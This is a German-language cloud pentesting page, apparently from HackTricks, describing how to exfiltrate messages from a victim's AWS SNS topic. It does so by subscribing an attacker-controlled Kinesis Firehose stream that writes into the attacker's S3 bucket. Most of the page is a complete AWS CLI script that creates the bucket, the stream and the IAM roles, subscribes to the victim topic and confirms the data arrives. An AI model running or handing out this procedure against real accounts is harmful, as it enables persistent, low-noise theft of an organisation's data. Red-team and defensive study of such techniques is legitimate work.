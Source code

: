 # AWS - SNS to Kinesis Firehose Exfiltration (Fanout to S3)

{{#include ../../../../banners/hacktricks-training.md}}

Missbrauche das Firehose-Subscription-Protokoll, um einen vom Angreifer kontrollierten Kinesis Data Firehose delivery stream an einem Opfer-SNS-Standard-Topic zu registrieren. Sobald die Subscription eingerichtet ist und die erforderliche IAM-Rolle `sns.amazonaws.com` vertraut, wird jede zukünftige Benachrichtigung dauerhaft in den S3-Bucket des Angreifers geschrieben — mit minimalem Lärm.

## Anforderungen
- Berechtigungen im Angreiferkonto, um einen S3-Bucket, einen Firehose delivery stream und die von Firehose verwendete IAM-Rolle zu erstellen (`firehose:*`, `iam:CreateRole`, `iam:PutRolePolicy`, `s3:PutBucketPolicy`, etc.).
- Die Möglichkeit, sich mit `sns:Subscribe` am Opfer-Topic zu abonnieren (und optional `sns:SetSubscriptionAttributes`, falls die Subscription-Rollen-ARN nach der Erstellung angegeben wird).
- Eine Topic-Policy, die dem Angreifer-Principal das Abonnieren erlaubt (oder der Angreifer bereits im selben Account agiert).

## Angriffsschritte (Beispiel im selben Account)
```bash
REGION=us-east-1
ACC_ID=$(aws sts get-caller-identity --query Account --output text)
SUFFIX=$(date +%s)

# 1) Create attacker S3 bucket and Firehose delivery stream
ATTACKER_BUCKET=ht-firehose-exfil-$SUFFIX
aws s3 mb s3://$ATTACKER_BUCKET --region $REGION

STREAM_NAME=ht-firehose-stream-$SUFFIX
FIREHOSE_ROLE_NAME=FirehoseAccessRole-$SUFFIX

# Role Firehose assumes to write into the bucket
aws iam create-role --role-name "$FIREHOSE_ROLE_NAME" --assume-role-policy-document '{
"Version": "2012-10-17",
"Statement": [{"Effect": "Allow","Principal": {"Service": "firehose.amazonaws.com"},"Action": "sts:AssumeRole"}]
}'

cat > /tmp/firehose-s3-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":["s3:AbortMultipartUpload","s3:GetBucketLocation","s3:GetObject","s3:ListBucket","s3:ListBucketMultipartUploads","s3:PutObject"],"Resource":["arn:aws:s3:::$ATTACKER_BUCKET","arn:aws:s3:::$ATTACKER_BUCKET/*"]}]}
JSON
aws iam put-role-policy --role-name "$FIREHOSE_ROLE_NAME" --policy-name AllowS3Writes --policy-document file:///tmp/firehose-s3-policy.json

aws firehose create-delivery-stream \
--delivery-stream-name "$STREAM_NAME" \
--delivery-stream-type DirectPut \
--s3-destination-configuration RoleARN=arn:aws:iam::$ACC_ID:role/$FIREHOSE_ROLE_NAME,BucketARN=arn:aws:s3:::$ATTACKER_BUCKET \
--region $REGION >/dev/null

# 2) IAM role SNS assumes when delivering into Firehose
SNS_ROLE_NAME=ht-sns-to-firehose-role-$SUFFIX
aws iam create-role --role-name "$SNS_ROLE_NAME" --assume-role-policy-document '{
"Version": "2012-10-17",
"Statement": [{"Effect": "Allow","Principal": {"Service": "sns.amazonaws.com"},"Action": "sts:AssumeRole"}]
}'

cat > /tmp/allow-firehose.json <<JSON
{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":["firehose:PutRecord","firehose:PutRecordBatch"],"Resource":"arn:aws:firehose:$REGION:$ACC_ID:deliverystream/$STREAM_NAME"}]}
JSON
aws iam put-role-policy --role-name "$SNS_ROLE_NAME" --policy-name AllowFirehoseWrites --policy-document file:///tmp/allow-firehose.json

SNS_ROLE_ARN=arn:aws:iam::$ACC_ID:role/$SNS_ROLE_NAME

# 3) Subscribe Firehose to the victim topic
TOPIC_ARN=<VICTIM_TOPIC_ARN>
aws sns subscribe \
--topic-arn "$TOPIC_ARN" \
--protocol firehose \
--notification-endpoint arn:aws:firehose:$REGION:$ACC_ID:deliverystream/$STREAM_NAME \
--attributes SubscriptionRoleArn=$SNS_ROLE_ARN \
--region $REGION

# 4) Publish test message and confirm arrival in S3
aws sns publish --topic-arn "$TOPIC_ARN" --message 'pii:ssn-123-45-6789' --region $REGION
sleep 90
aws s3 ls s3://$ATTACKER_BUCKET/ --recursive
```
## Bereinigung
- Lösche die SNS-Subscription, den Firehose-Delivery-Stream, temporäre IAM-Rollen/-Policies und den S3-Bucket des Angreifers.

## Auswirkung
**Mögliche Auswirkung**: Kontinuierliche, dauerhafte exfiltration jeder Nachricht, die an das gezielte SNS-Topic veröffentlicht wird, in vom Angreifer kontrollierten Speicher mit minimaler operativer Spur.

{{#include ../../../../banners/hacktricks-training.md}}
